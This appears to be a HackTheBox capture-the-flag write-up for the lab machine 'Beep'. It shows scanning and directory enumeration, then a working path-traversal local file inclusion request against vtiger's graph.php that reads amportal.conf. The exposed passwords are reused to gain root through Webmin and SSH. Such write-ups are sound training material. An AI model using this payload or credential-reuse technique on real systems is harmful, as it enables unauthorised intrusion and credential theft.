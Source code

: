 # Beep | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[~]
└──╼ [★]$ nmap -A -p- -T4 10.129.1.226
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-14 06:56 UTC
Nmap scan report for 10.129.1.226
Host is up (0.22s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.1.226/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-14T08:18:16+00:00; +1h03m38s from scanner time.
942/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1h03m37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1309.35 seconds
```
The machine is running SSH, an Apache server running SSL (80/443), an Asterisk Call Manager service on port 5038 , another HTTP service on port 10000 and then some other services which nmap attempted to identify.

### 2. Enumeration
Starting with the main web server on 80/443, the main page is a login from to Elastix, which is a communications server software to enable stuff like IP PBX, email, IM and fax. Each function is controlled by another service. No default creds work for the login.  
I use gobuster to search for other directories from the root:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ gobuster dir -u https://10.129.1.226 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30 -k===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.129.1.226
[+] Threads:        30
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/14 10:46:40 Starting gobuster
===============================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2020/12/14 12:32:27 Finished
===============================================================
```
By trying to go to /admin, I get prompted for more credentials in a popup window. I try more default creds and get an "unauthorized" message, but I also get the version of the application the admin panel is for: `FreePBX 2.8.14`.  
  
Additionally I look into the other discorvered folders and find the following:
- /mail: roundcube webmail
- /lang: has different language text for Elastix, this does indicate it is Elastix 1.0, but no way to tell how accurate that is. Might be just the language files dont change between versions.
- /panel: "Flash Operator Panel" for Asterisk, appears to need Shockwave Flash (maybe this really is 1.0)- /recordings: Another login form, this time it's just the non-admin FreePBX 2.5 form.  
  
While I'm at it, port 10000 is the Webmin login page. Webmin is a system configuration tool for Linux, allowing administrators to manage the server via the web. I can't find any version information.
  

### 3. Read some files
After a few tests I try exploiting a local file inclusion vulnerability in graph.php, which is part of a CRM called vtiger used for Elastix. I navigated to https://10.129.1.226/vtigercrm/ and found another login page for it. I continue with the exploit (detailed as part of an exploit script at https://www.exploit-db.com/exploits/37637), browsing to graph.php and getting LFI through the current_language parameter. Using a proxy made this easy to exploit and tweak. Here is the request that worked:
```bash
GET /vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action HTTP/1.1
Host: 10.129.1.226
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: elastixSession=h8j1m5gu2rtj86r811uggin792; testing=1; PHPSESSID=jkdbb0qf8h099h6b94ta74nf36; ARI=qku5175lnonksij0jggibbffn5
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
Retrieving the amportal.conf file (as done in the proof of concept) is great because it gives me some credentials including:
- Asterisk SQL: `asteriskuser:jEhdIekWmdjE`
- Asterisk portal: `admin:jEhdIekWmdjE`
- Flash operator panel password: `jEhdIekWmdjE`
- ARI admin password: `jEhdIekWmdjE`
It is clear there is heavy credential use on the machine. Knowing this, and knowing the webmin portal allows access to an admin user with the username root (by default), I can attempt to use this password to log in.

# Get a shell
With the credentials `root:jEhdIekWmdjE` I can log into the webmin panel, which ends up giving me root access to the machine. I can do everything, including use a web command shell where I can verify I am root. Additionally I can SSH into the machine, after specifying a supported algorithm.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh root@10.129.1.226
Unable to negotiate with 10.129.1.226 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.1.226
The authenticity of host '10.129.1.226 (10.129.1.226)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.226' (RSA) to the list of known hosts.
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# whoami
root
```
